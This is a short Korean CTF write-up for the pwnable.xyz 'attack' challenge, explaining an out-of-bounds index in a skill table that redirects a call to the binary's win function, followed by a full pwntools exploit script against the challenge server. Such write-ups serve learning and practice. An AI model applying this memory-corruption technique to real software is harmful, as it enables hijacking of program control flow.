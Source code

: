 ```yaml
---
title: "[pwnable.xyz]attack"
date: 2020-5-1
ctf: Pwnable.xyz
layout: post
published : false
---
```


바이너리가 좀 크지만 인풋 받는곳에서 취약점 터지는거 알면 쉽게 풀 수 있다. level1을 만들고 win주소를 player.Equip.Name에 박아놓고 level2를 만들고 skill change할 때 SkillTable에서 oob가 터져서 바꿀 수 있다 그리고 3번 메뉴로 나가서 전투에서 스킬 사용하면 win함수가 호출된다.

> exploit.py

```python
from pwn import *

e = ELF('./challenge')
# p = process('./challenge')
p = remote('svc.pwnable.xyz',30020)
win = e.symbols['win']
level = 0
SkillTable = 0x00000000006046E0
player_equip = 0x0000000000604288 + 0xd0 # player.Equip.Name

get = ['Which skill do you want to use : ','Do you want to change your equip (y/n)? : '
,'Do you want to change the type of your skills (y/n)? : ','Which skill do you want to change (3 to exit): ']
# log.info(a[-1])
while True:
	sleep(1)
	a=p.read().split('\n')[-1]
	log.info(a)
	if get[0] == a:
		p.sendline('1')
		p.sendlineafter('Which target you want to use that skill on :','0')
	elif get[1] == a:
		p.sendline('y')
		p.sendlineafter('Name for your equip: ',p64(win))
	elif get[2] == a:
		p.sendline('y')
		p.sendlineafter('Which skill do you want to change (3 to exit): ','1')
		p.sendlineafter('What type of skill is this (0: Heal, 1: Attack): ',str((player_equip-SkillTable)/8))
	elif get[3] == a:
		p.sendline('3')
		p.sendlineafter('Which skill do you want to use : ','1')
		p.sendlineafter('Which target you want to use that skill on :','0')
		p.interactive()

p.interactive()
```

